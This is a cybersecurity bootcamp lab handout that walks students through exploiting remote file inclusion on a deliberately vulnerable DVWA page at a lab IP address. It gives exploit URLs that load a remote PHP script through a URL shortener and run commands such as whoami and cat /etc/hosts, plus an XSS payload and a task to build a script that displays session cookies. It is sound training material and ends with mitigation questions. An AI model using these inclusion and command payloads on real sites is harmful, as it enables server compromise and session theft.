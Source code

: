 ## Activity File: Remote File Inclusion 

- In this activity, you will continue your role as an application security engineer with Replicants.

- You've just tested the company's main production website and confirmed there is another back-end component vulnerability, **local file inclusion (LFI)**.

- Your manager is now concerned that the website is also vulnerable to **remote file inclusion (RFI)** and would like you to now test for this vulnerability.

- Your manager has asked you to propose a mitigation strategy based on your findings.

## Setup 

- Access your web lab and open a browser.

- Return to the same webpage from the previous activity: <http://192.168.13.25>.

  - Select the **File Inclusion** option from the menu on the left side of the page.

    - Note that this is the same page where the directory traversal activity was done.

  - Alternatively, you can access the webpage directly by using this link: <http://192.168.13.25/vulnerabilities/fi/>.
  
-  The page should resemble the following image:

    ![On the DVWA webpage, an arrow points to File Inclusion on the left-side menu.](directory_traversal.png)

- **Note:** If you have any issues accessing this webpage, you might need to repeat the activity setup steps from the SQL Injection Activity in 15.1.


## Instructions

The webpage you have revisited represents a page within Replicants website designed to display files within Replicants web server. You previously determined this page has a directory traversal vulnerability. Complete the following steps to determine if this same webpage is also vulnerable to a **RFI** vulnerability:

1. Test the intended use of the web application.

    - Select `File1.php`, and note the following:

      - The URL changes to the following: <http://192.168.13.25/vulnerabilities/fi/?page=file1.php>.

      - The content on the webpage is displayed as follows:
      
              Hello admin
              Your IP address is: 192.168.13.1
          
    - Select the other links (`File2.php` and `File3.php`) and note their URL and webpage changes.

2. Test an unintended function of the application by referencing a remote webpage.

    - Note that you just tested how the application is designed to access a file on the Replicants web server.

    - Let's test what will happen if the URL is modified to reference an external or remote webpage.
    
    - Change the parameter of the URL to reference an external URL (<http://www.example.com>) instead of one of the files (`File1.php`). For example:
    
      - <http://192.168.13.25/vulnerabilities/fi/?page=http://www.example.com>
      
    - Note how the example.com webpage has been added to the top of the Replicants website.

      - Test other webpages by replacing example.com with other URLs.
        
    - Note that this illustrates that the webpage is designed to allow external references.

    - Let's try something a little more malicious by referencing a remote script instead of a webpage!
    
3. Test RFI.

    - We just saw how this webpage allows referencing external sources such as webpages. 

      - Let's see what will happen if we reference a malicious external script instead of a webpage.
      
    - Using your browser in your web lab, view the following webpage:

      - <https://tinyurl.com/y498epmz>
      
    - Note how this looks exactly like the script that was used in the LFI activity.

      - But this script is hosted remotely!
      
    - Change the URL to reference this webpage, instead of example.com: <http://192.168.13.25/vulnerabilities/fi/?page=https://tinyurl.com/y498epmz>.

    - Note that this will not do anything; similar to the remote inclusion activity, we have to provide the script with a command-line command!

    - Let's start with the `whoami` command.

      - To add this command into the URL, add `cmd=whoami&` between `?` and `page`, as follows:
      
        - `http://192.168.13.25/vulnerabilities/fi/?cmd=whoami&page=https://tinyurl.com/y498epmz`
      
    - Run the command and note the results on the top left of the page.

    - Now see if you can modify the command to run the following:

      - `ls`
    
      - `ps`
    
      - cat the `/etc/hosts` file
    
4. **Bonus:** Combine RFI and cross-site scripting.

    - So far you have been able to run **RFI** by running remote scripts against a vulnerable web server.

    - These scripts have referenced an external webpage that contained a malicious script.

    - Let's see what would happen if you referenced a script that contained a **cross-site scripting** payload.

    - Using your browser again, look at the following webpage: 

      - <https://tinyurl.com/yxk853vy>

      - Note how this page contains a script that includes XSS payloads we developed previously.

        - `<script>alert("Hey you have been hacked")</script>`

    - Note that the exception is that the XSS payload is embedded within a PHP script.

    - Change the URL to reference this webpage, to see if you can get the XSS payload to execute the pop-up!

5. **Super Bonus:** Develop your own malicious script to capture cookies with a RFI exploit.

    - So far you have referenced pre-built webpages that contained malicious PHP script.

    - Let's see if you can write your own malicious PHP script webpage.

      - When your webpage is referenced, a script should run and pop up with the user's session cookies.

    - **Hint:** Look at the format of the script from Step 4, and modify this script to pop up with the session cookies: 

        `<script>alert("Hey you have been hacked")</script>`

    - **Hint:** To build a webpage with the script, do the following:

        - Add your script on the following webpage: <http://pastie.org/>.
      
        - Select Save Paste and then Raw on the top right to display the raw code.
      
        - This will create a unique URL with your code.
          
   - Reference the URL of this raw code from the same vulnerable webpage.

      - Run your URL and see if you can successfully get the session cookies to appear on a pop-up!

6. Answer the following mitigation strategy questions:

    - Describe to your management how a malicious user might take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

    - Describe in plain language to your manager how you can mitigate the vulnerabilities you just exploited.

---

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved. 
